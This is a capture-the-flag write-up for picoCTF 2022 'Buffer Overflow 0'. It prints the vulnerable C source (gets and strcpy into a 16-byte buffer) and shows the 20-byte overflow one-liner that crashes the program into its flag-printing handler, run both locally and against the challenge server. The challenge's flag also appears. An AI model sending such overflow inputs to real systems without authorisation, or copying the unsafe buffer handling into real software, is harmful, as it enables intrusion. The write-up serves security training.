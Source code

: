 ```yaml
---
title: picoCTF 2022 - Buffer Overflow 0
tags: [pico22, bof, pwn]
---
```


Let's gather some information before attempting to execute the binary

```bash
$ file vuln
vuln: ELF 32-bit LSB pie executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=08fef67fdcc0d93019a26a2f8f97279dee848031, for GNU/Linux 3.2.0, not stripped

$ pwn checksec vuln
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

We can see that it's a 32 bit ELF file dinamically linked and not stripped. If we attempt to execute it, we are prompted for a text file named `flag.txt`. Let's create it and run the binary again.

```bash
$ echo "Buffer Overflow HERE" >> flag.txt

$ ./vuln
Input: zanef
The program will exit now
```

Nothing strange happens. We check the source code

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  printf("%s\n", flag);
  fflush(stdout);
  exit(1);
}

void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}

int main(int argc, char **argv){
  
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }
  
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler); // Set up signal handler
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  printf("Input: ");
  fflush(stdout);
  char buf1[100];
  gets(buf1); 
  vuln(buf1);
  printf("The program will exit now\n");
  return 0;
}
```

There's only one function that should stands out and it's `sigsegv_handler`. This function receives an integer and prints out the flag. We can see that in this line `sigsegv_handler` is passed as an argument to another function named `signal`

```c
signal(SIGSEGV, sigsegv_handler); // Set up signal handler
```

With a simple online search we can read that `signal` _"sets a function to handle signal i.e. a signal handler with signal numer sig"_ and `SIGSEV` is _"a signal propagated when a program tries to read or write outside the memory it is allocated for it"_. With these two definitions we can deduce that this program, when there's an invalid storage read or write, calls the handler that prints the flag.

We have to write or read outside the program boundaries. Check the source code again and we can see that the function `vuln` uses `strcpy` to copy the input string into a buffer. `strcpy` is a function vulnerable to buffer overflow so if we pass an input larger than the buffer that sould contain it, `strcpy` will try to write it anyway and will overwrite the memory addresses after the limits.

```c
void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}
```

We can see that in the `main` function it's used `gets` that is another buffer overflow vulnerable function.

```c
char buf1[100];
  gets(buf1);
```

Let's exploit `strcpy` by feeding the program with inputs longer than 16 bytes.

```bash
$ python -c 'print "A" * 16' | ./vuln
Input: The program will exit now

$ python -c 'print "A" * 20' | ./vuln
Input: Buffer Overflow HERE
``` 

With an input of 20 bytes the program prints out the content of our `flag.txt` file. This means that the program tried to write outside its boundaries and generated a segmentation fault signal. We can confirm our assumption with this command

```bash
$ sudo dmesg
segfault at 0 ip 00007fc88e67c375 sp 00007ffec5897fd8 error 4 in libc-2.33.so[7fc88e52e000+158000] 
```

We can now exploit the remote service and get some points

```bash
$ python -c 'print "A" * 20' | nc saturn.picoctf.net 65355
Input: picoCTF{ov3rfl0ws_ar3nt_that_bad_34d6b87f}
```